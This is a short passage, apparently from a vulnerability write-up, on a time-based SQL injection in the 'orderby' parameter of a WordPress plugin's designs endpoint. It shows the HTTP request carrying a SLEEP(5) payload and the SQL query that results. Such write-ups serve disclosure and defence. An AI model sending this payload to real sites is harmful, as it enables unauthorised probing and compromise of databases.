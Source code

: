 ![Chart](chart.png "Execution Flow")

---

## Exploit

### Detect SQLi

Send a **GET request** containing an SQLi payload.

```http
GET /designs/?orderby=(SELECT+SLEEP(5)) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

The resulting SQL becomes:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) ASC LIMIT 25
                OFFSET 0
```

![time response](time_resp.png "Time-based SQLi Response")

